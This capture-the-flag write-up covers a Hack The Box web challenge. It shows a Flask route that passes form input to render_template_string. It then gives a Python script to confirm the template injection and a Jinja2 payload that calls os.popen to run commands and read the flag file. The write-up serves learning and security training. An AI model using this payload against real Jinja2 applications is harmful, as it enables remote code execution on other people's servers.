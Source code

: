 # Trial by Fire

## Synopsis

Trial by Fire is a very easy web challenge. Players will utlise SSTI to gain RCE.

### Skills Required

* Knowledge of Python
* Knowledge of Jinja2

### Skills Learned

* Performing Server-Side Template Injection

## Solution

When we visit the site, we're greeted with a form that accepts the "warrior's" name.

<figure><img src="../../../../../.gitbook/assets/image (105).png" alt=""><figcaption></figcaption></figure>

Then we are greeted with a turn-based game. We can perform attacks and the dragon responds.

<figure><img src="../../../../../.gitbook/assets/image (106).png" alt=""><figcaption></figcaption></figure>

After the game ends, we have a statistics page showed.

<figure><img src="../../../../../.gitbook/assets/image (107).png" alt=""><figcaption></figcaption></figure>

Looking at the source code, we find out that the `battle-report` is passing user input to the `render_template_string()` function, which is a clear indicator that the application is vulnerable to SSTI

```python
@web.route('/battle-report', methods=['POST'])
def battle_report():
    stats = {
        . . .
        'damage_dealt': request.form.get('damage_dealt', "0"),
        'turns_survived': request.form.get('turns_survived', "0")
        . . .
    }

    REPORT_TEMPLATE = f"""
        . . .
        <p class="title">Battle Statistics</p>
        <p>🗡️ Damage Dealt: <span class="nes-text is-success">{stats['damage_dealt']}</span></p>
        . . .
        <p>⏱️ Turns Survived: <span class="nes-text is-primary">{stats['turns_survived']}</span></p>
        . . .
    """

    return render_template_string(REPORT_TEMPLATE)
```

We can confirm the SSTI by running a payload like `{{ 7 * 7 }}`.

```python
import requests

BASE_URL = "http://127.0.0.1:1337"

payload = "{{ 7 * 7 }}"

response = requests.post(f"{BASE_URL}/battle-report", data={
    "damage_dealt": payload
})

print(response.text) # <p>🗡️ Damage Dealt: <span class="nes-text is-success">49</span></p>
```

Now using the payload below we can get system command execution from SSTI, and we get the flag!

```python
{{ url_for.__globals__.sys.modules.os.popen('cat flag.txt').read() }}
```

#### Flag

* `HTB{Fl4m3_P34ks_Tr14l_Burn5_Br1ght}`
